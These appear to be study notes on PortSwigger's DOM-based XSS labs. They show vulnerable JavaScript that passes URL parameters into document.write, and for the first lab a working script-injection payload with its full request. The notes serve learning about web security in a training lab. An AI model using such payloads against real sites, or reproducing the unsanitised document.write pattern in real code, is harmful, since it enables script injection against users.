 <span style="color:yellow;font-weight:700;font-size:30px">
DOM-based vulnerabilities (general)
</span>
https:portswigger.net/web-security/dom-based


# DOM-based XSS
[Materials](https://portswigger.net/web-security/cross-site-scripting/dom-based#dom-xss-combined-with-reflected-and-stored-data)

# ***1.Lab: DOM XSS in document.write sink using source location.search*** 
[to the Lab](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink)

original Java script:
    function trackSearch(query) {
        document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
    }
    var query = (new URLSearchParams(window.location.search)).get('search');
    if(query) {
        trackSearch(query);
    }

full path:
    GET /?search=">'<script>alert(document.domain)</script><"' HTTP/1.1

payload:
    ">'<script>alert(document.domain)</script><"'


# ***2. Lab: DOM XSS in document.write sink using source location.search inside a select element***
[to the Lab](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink-inside-select-element)

original Java script:
    var stores = ["London","Paris","Milan"];
    var store = (new URLSearchParams(window.location.search)).get('storeId');
    document.write('<select name="storeId">');
    if(store) {
        document.write('<option selected>'+store+'</option>');
    }
    for(var i=0;i<stores.length;i++) {
        if(stores[i] === store) {
            continue;
        }
        document.write('<option>'+stores[i]+'</option>');
    }
    document.write('</select>');
